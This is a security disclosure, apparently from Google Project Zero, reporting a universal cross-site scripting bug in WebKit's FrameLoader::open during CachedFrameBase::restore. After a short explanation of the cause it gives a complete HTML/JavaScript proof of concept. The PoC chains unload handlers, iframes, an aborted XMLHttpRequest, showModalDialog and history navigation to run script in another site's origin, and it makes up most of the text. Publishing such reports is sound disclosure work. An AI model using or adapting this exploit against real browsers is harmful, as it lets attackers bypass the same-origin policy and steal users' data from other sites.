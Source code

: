 # UXSS via CachedFrameBase::restore

### Reported by lokihardt@google.com, Mar 17 2017

This is similar to the case https://bugs.chromium.org/p/project-zero/issues/detail?id=1151.
But this time, javascript handlers may be fired in `FrameLoader::open`.

```cpp
void FrameLoader::open(CachedFrameBase& cachedFrame)
{
	...
    clear(document, true, true, cachedFrame.isMainFrame()); <<--------- prepareForDestruction which fires unloads events is called.
    ...
}
```

PoC:

```html
<html>

<body>
  Click anywhere...
  <script>
    function createURL(data, type = 'text/html') {
      return URL.createObjectURL(new Blob([data], {
        type: type
      }));
    }

    function navigate(w, url) {
      let a = w.document.createElement('a');
      a.href = url;
      a.click();
    }

    window.onclick = () => {
      window.w = open('about:blank', 'w', 'width=500, height=500');

      let i0 = w.document.body.appendChild(document.createElement('iframe'));
      let i1 = w.document.body.appendChild(document.createElement('iframe'));
      i0.contentWindow.onbeforeunload = () => {
        i0.contentWindow.onbeforeunload = null;

        navigate(w, 'about:blank');
      };

      navigate(i0.contentWindow, createURL(`
<body>
<script>
</scrip` + 't></body>'));

      setTimeout(() => {
        let g = i0.contentDocument.body.appendChild(document.createElement('iframe'));
        let x = new g.contentWindow.XMLHttpRequest();
        x.onabort = () => {
          parseFloat('axfasdfasfdsfasfsfasdf');
          i0.contentDocument.write();

          navigate(w, 'https://abc.xyz/');

          showModalDialog(createURL(`
<script>
let it = setInterval(() => {
	try {
	    opener.w.document.x;
	} catch (e) {
	    clearInterval(it);
	    window.close();
	}
}, 10);
</scrip` + 't>'));

          setTimeout(() => {
            i1.srcdoc = '<script>alert(parent.location);</scrip' + 't>';
            navigate(i1.contentWindow, 'about:srcdoc');
          }, 10);
        };

        x.open('GET', createURL('x'.repeat(0x1000000)));
        x.send();
        w.history.go(-2);
      }, 200);
    };
  </script>
</body>

</html>

```

Link: https://bugs.chromium.org/p/project-zero/issues/detail?id=1197

